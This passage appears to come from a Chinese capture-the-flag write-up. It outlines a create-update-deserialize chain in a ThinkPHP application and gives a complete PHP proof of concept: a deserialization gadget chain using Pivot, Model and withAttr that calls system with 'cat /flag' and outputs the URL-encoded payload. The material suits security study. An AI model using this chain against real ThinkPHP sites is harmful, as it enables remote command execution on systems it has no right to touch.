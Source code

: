 ```php
            $result = $db->save(['serialize'=>$data]);

            return json(["code"=>200,"msg"=>"修改成功"]);
        }
    }
```

那么利用链应该是 创建->更新->反序列化;

PoC:

```php
<?php
 namespace think\model\concern;
 trait Attribute
 {
     private $data = ["key"=>"cat /flag"];
     private $withAttr = ["key"=>"system"];
 }
 namespace think;
 abstract class Model
 {
     use model\concern\Attribute;
     private $lazySave = true;
     protected $withEvent = false;
     private $exists = true;
     private $force = true;
     protected $name;
     public function __construct($obj=""){
         $this->name=$obj;
     }
 }
 namespace think\model;
 use think\Model;
 class Pivot extends Model
 {}
 $a=new Pivot();
 $b=new Pivot($a);
 echo urlencode(serialize($b));
```

![16-7.png](16-7.png)
